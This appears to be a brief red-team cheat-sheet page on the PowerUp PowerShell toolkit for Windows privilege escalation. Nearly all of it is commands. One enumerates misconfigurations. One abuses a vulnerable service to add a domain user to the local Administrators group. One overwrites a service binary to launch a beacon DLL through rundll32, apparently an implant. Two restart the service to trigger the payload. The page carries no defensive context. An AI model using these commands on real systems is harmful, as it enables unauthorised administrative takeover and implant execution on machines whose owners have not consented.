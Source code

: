 # PowerUp

```powershell
Invoke-AllChecks
```

{% code overflow="wrap" %}
```powershell
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAIN\user /add"
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'
```
{% endcode %}

```
net.exe stop VulnerableSvc
net.exe start VulnerableSvc
```
